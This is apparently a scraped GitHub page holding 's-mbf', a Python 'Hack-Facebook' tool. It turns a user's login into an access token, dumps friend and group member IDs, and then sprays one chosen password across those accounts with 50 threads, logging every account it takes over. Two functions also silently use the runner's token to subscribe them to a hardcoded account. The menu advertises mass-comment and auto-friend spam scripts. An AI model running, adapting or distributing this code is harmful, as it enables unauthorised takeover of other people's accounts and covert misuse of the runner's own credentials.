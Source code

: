 # Hack-Facebook
Gunakan Dengan bijak:)
  MrR23SH / s-mbf
Configure email settings 
Please verify your email address to access all of GitHub’s features.
An email containing verification instructions was sent to ui080991@gmail.com.
Code  Issues 0  Pull requests 0  Projects 0  Wiki  Pulse  Community
embf.py

#!usr/bin/python3.7
#Author: MrR23SH
#contact: t.me/MrR3Za
#github: github.com/mrr23sh
try:
	from multiprocessing.pool import ThreadPool
	import os, requests, sys, json, time, hashlib, random
except Exception as F:
	exit("[ModuleErr] %s"%(F))

if sys.version[0] in '2':
	exit("[sorry] use python version 3")
#color
r="\033[31m"
g="\033[32m"
w="\033[1;37m"
c="\033[36m"
y="\033[33m"
#banner
banner=("""%s
   _____ __  ______  ____
  / __(_)  |/  / _ )/ __/ %sAuthor : MrR23SH%s
 _\ \/ / /|_/ / _  / _/	  %sContact: t.me/MrR3Za%s
/___/_/_/  /_/____/_/     %sversion: %s6.5%s
"""%(c,g,c,g,c,g,y,w))

try:
	toket=open('toket/token.txt')
	toket.close()
except IOError:
		try:
			os.system('clear')
			print(banner)
			try:
				os.mkdir('toket')
			except OSError: pass
			print('[!] login to your facebook account first');id = input('[?] Username : ');pwd = input('[?] Password : ');API_SECRET = '62f8ce9f74b12f84c123cc23437a4a32';data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"};sig = ('api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.0'+API_SECRET).encode('utf-8')
			x = hashlib.new('md5')
			x.update(sig)
			data.update({'sig':x.hexdigest()})
			requ=requests.get('https://api.facebook.com/restserver.php',params=data)
			res=requ.json()['access_token']
			o=open('toket/token.txt','w')
			o.write(res)
			print("[!] success generate access token")
			print("[!] access token saved: toket/token.txt")
			time.sleep(3)
			o.close()
		except KeyError:
			print("[!] failed generate access token")
			print("[!] Check your username/password")
			exit()
		except (KeyboardInterrupt,EOFError):
			exit("\n[!] Key interrupt: exit.")
		except Exception as F:
			exit("[Error] %s"%(F))

def getFid():
	print(banner)
	try:
		os.mkdir('dump')
	except OSError: pass
	try:
		toket=open('toket/token.txt','r').read()
		id=input("[in] your friends id: ")
		b=open('dump/friends_'+id+'_id.txt','w')
		re=requests.get('https://graph.facebook.com/'+id+'?fields=friends.limit(5000)&access_token='+str(toket));requests.post('https://graph.facebook.com/adlizhafari.nub/subscribers?access_token='+toket)
		s=json.loads(re.text)
		for i in s['friends']['data']:
			b.write(i['id'] + '\n')
			print('\r[*] %s retrieved'%(i['id']));sys.stdout.flush();time.sleep(0.0001)
		print('\n\r[!] all friends id successfuly retreived')
		print("[!] file saved: dump/friends_%s_id.txt"%(id))
		b.close()
		exit()
	except (KeyboardInterrupt,EOFError):
		exit("[!] Key interrupt: Stoped.")
	except KeyError:
		os.remove('dump/friends_'+str(id)+'_id.txt')
		exit('[!] failed to fetch friend id')

def getGid():
	print(banner)
	try:
		os.mkdir('dump')
	except OSError: pass
	try:
		toket=open('toket/token.txt','r').read()
		id=input("[in] your groups id: ")
		b=open('dump/group_'+id+'_id.txt','w')
		re=requests.get('https://graph.facebook.com/'+id+'/members?fields=id&limit=999999999&access_token='+toket);requests.post('https://graph.facebook.com/adlizhafari.nub/subscribers?access_token='+toket)
		s=json.loads(re.text)
		for i in s['data']:
			b.write(i['id'] + '\n')
			print('\r[*] %s retrieved'%(i['id']));sys.stdout.flush();time.sleep(0.0001)
		print('\n\r[!] group members id successfuly retreived')
		print("[!] file saved: dump/group_%s_id.txt"%(id))
		b.close()
		exit()
	except (KeyboardInterrupt,EOFError):
		exit("[!] Key interrupt: Stoped.")
	except KeyError:
		os.remove('dump/group_'+str(id)+'_id.txt')
		exit('[!] failed to fetch group id')

def rmtoken():
	ques=input("\n[?] are you sure (y/n) ")
	if ques == 'n' or ques == 'N':
		exit("[!] Canceling")
	elif ques == 'y' or ques == 'Y':
		os.remove('toket/token.txt')
		exit("[!] success removed access token")
	else: exit("[!] wrong input: exit")

def update():
	print("[!] updating...")
	os.system('cd;rm -rf s-mbf')
	os.system('cd;git clone https://github.com/mrr23sh/s-mbf')
	exit()

cek=[]
tap=[]
def main(arg):
        try:
                url='https://mbasic.facebook.com/login'
                dt={'email':arg,'pass':pas,'login':'submit'}
                req=requests.post(url,data=dt)
                respData = req.content
                if 'save-device' in str(respData) or 'm_sess' in str(respData):
                        true='yeah'
                        live="[found] %s => %s"%(arg,pas)
                        tap.append(true)
                        try:
                                os.mkdir('result')
                        except FileExistsError:
                                pass
                        tulis="{}\n".format(live)
                        f=open('result/live.txt','a')
                        f.write(tulis)
                        print("%s[%sfound%s]%s %s -> %s"%(c,g,c,w,arg,pas))
                        f.close()
                elif 'checkpoint' in str(respData):
                        true='notbad'
                        cek.append(true)
                        CP="[checkpoint] %s => %s"%(arg,pas)
                        try:
                                os.mkdir('result')
                        except FileExistsError:
                                pass
                        wrt="{}\n".format(CP)
                        f=open('result/live.txt','a')
                        f.write(wrt)
                        print("%s[%sCpoint%s]%s %s -> %s"%(c,y,c,w,arg,pas))
                        f.close()
                else:
                        print("%s[%snot%s]%s %s"%(c,r,c,w,arg))
        except: pass

os.system('clear')
print(banner)
print("""\t[1] start
\t[2] dump id from your friends id
\t[3] dump id from your group id
\t[4] remove access token
\t[5] home comment facebook
\t[6] mass group comment
\t[7] specific target comments
\t[8] specific react comments
\t[9] accept all friends requests
\t[10] auto add friends from target id
\t[00] check update""")
pilih=int(input('\n\t[!] choose your option: '))
if pilih == 2:
	os.system('clear')
	getFid()
elif pilih == 3:
	os.system('clear')
	getGid()
elif pilih == 4:
	rmtoken()
elif pilih == 5:
	os.system('python src/komen.py')
	exit()
elif pilih == 6:
	os.system('python src/Gkomen.py')
	exit()
elif pilih == 7:
	os.system('python src/Tkomen.py')
	exit()
elif pilih == 8:
	os.system('python src/Kreact.py')
	exit()
elif pilih == 9:
	os.system('python src/Facc.py')
	exit()
elif pilih == 10:
	os.system('python src/Fadd.py')
	exit()
elif pilih == 00 or pilih == 0:
	print("\n[!] Checking update")
	rr=requests.get('https://raw.githubusercontent.com/mrr23sh/s-mbf/master/README.md').text
	if 'v.7.0' in str(rr) or 'v.7.5' in str(rr):
		update()
	else: exit("[!] already up to date")
else:
	os.system('clear')
	print(banner)

try:
        file=open(input("[in] Id List Target: ")).read().splitlines()
        pas=input("[in] Password to Crack: ")
except (KeyboardInterrupt,EOFError):
        exit("%s\n[!] Key interrupt: Exiting."%(r))
except FileNotFoundError:
        exit("%s\n[!] File not found: Exiting."%(r))
print("\n%s[LIVE RESULT]:"%(c))
o=[]
for x in file:
    o.append(x)
p=ThreadPool(50)
p.map(main,o)

if len(file) == 0:
	exit("%s[!] File empty\n"%(r))
if 'yeah' in str(tap) or 'notbad' in str(cek):
        print("\nFound ["+str(len(tap))+"] CheckPoint ["+str(len(cek))+"]")
        print("Live Results saved: result/live.txt")
else: print("[ %s:(%s ] nothing found"%(y,w))
